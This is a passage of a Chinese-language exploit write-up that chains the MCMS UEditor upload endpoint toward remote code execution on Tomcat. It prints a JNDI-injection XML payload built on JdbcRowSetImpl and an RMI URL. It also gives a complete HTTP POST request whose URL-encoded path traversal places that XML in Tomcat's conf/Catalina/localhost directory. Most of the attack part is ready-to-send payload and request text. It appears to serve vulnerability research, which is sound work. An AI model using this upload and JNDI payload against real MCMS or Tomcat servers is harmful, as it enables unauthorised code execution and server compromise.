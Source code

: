   
添加一个 .png  
 什么的，然后就可以 rce 了  
  
如果再深挖一下，不修改 web.xml  
，还有什么方法可以进行 rce 呢？  
### 方式二：从 jndi 到 rce  
#### 1. 实现 jndi  
  
读过 lvyyevd 师傅的文章   
tomcat下的文件上传RCE姿势   
，我们可以知道，能通过上传 xml 来实现 jndi  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnXibiaYPcVXXGlZtKnhM18Vpvq3O8sQ1kWBthhynY5ooHKj2rqjV9oRgw/640?wx_fmt=png&from=appmsg "")  
  
hostConfigBase  
 下的 xml 文件都会被 digester  
 解析一遍。也就是说我们可以把 xml 文件上传到 hostConfigBase  
。最后上传的目录为 \conf\Catalina\localhost  
  
xml 格式  
```
<?xml version='1.0' encoding='utf-8'?>
<Context>
    <Manager className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="rmi://localhost:1099/remoteobj"
             autoCommit="true"></Manager>
</Context>
```  
  
  
上传的 Post 请求，其中 url 解码完是 {filePathFormat:'/{.}./{.}./{.}.//conf/Catalina/localhost/8'}  
```
POST /ms-mcms/static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7b%66%69%6c%65%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%2f%63%6f%6e%66%2f%43%61%74%61%6c%69%6e%61%2f%6c%6f%63%61%6c%68%6f%73%74%2f%38%27%7d&action=uploadfile  HTTP/1.1
Host: 127.0.0.1:8079
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 431
Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X_Requested_With: UTF-8
--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
Content-Disposition: form-data; name="upload"; filename="1.xml"
<?xml version='1.0' encoding='utf-8'?>
<Context>
    <Manager className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="rmi://localhost:1099/remoteobj"
             autoCommit="true"></Manager>
</Context>
--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--
```  
  